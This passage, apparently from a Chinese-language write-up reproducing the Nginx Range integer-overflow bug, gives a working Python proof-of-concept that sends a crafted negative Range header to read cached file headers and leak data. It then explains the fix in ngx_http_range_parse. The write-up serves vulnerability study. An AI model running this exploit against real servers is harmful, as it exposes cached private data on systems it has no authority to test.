 ![](media/4e4f42773428d0f3211ae6dc8cc28672.png)

可以看到成功读取了缓存文件头部。

POC：
```
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import sys
import requests

if len(sys.argv) < 2:
print("%s url" % (sys.argv[0]))
print("eg: python %s http://your-ip:80/" % (sys.argv[0]))
sys.exit()
headers = {'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"}
offset = 605
url = sys.argv[1]
print("url:",url)
file_len = len(requests.get(url, headers=headers).content)
print("file_len: ",file_len)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (n, 0x8000000000000000 - n)
print("headers:",headers)
r = requests.get(url, headers=headers)
print("r:",r)
print(r.text)
```
运行：

![](media/018b14ad5ee44e75ce4884c22dcbf814.png)

同样获得KEY！

## 4 漏洞修复

![](media/75ee369f29a5723fb5ee78b396a2fc83.png)

可以看到，在ngx_http_range_filter_module.c的ngx_http_range_parse函数中做了两处修复：

[if !supportLists]· [endif]进一步检测了size的溢出情况，防止size溢出后造成小于content-length这条判断的绕过；

[if !supportLists]· [endif]则直接限定了使用后缀的情况下，start不能为负的，最小只能是0，也就是说使用“-xxx”的方式对Cache文件的读取只能从0开始到结束。

## 5 总结

Nginx整型溢出漏洞利用了Nginx服务器方向代理时未对Range的start的值进行校验，导致其为负数绕过对缓存文件长度的判断，直接得到缓存结果。在进行漏洞复现时，现有资料大都直接利用docker直接获取搭建好的环境。在自己尝试搭建环境时，由于原理没有理解清楚导致复现过程一直失败。想要完全掌握一个漏洞就要找到漏洞的关键成因是什么，掌握了成因复现漏洞才会事半功倍。

## 6 参考

1、https://www.freebuf.com/articles/terminal/140402.html

2、<https://blog.csdn.net/jiangbuliu/article/details/95943112>

3、<https://www.shungg.cn/post/173>

4、<https://paper.seebug.org/353/>

5、<https://blog.jenisec.org/security/nginx-int-overflow.html>
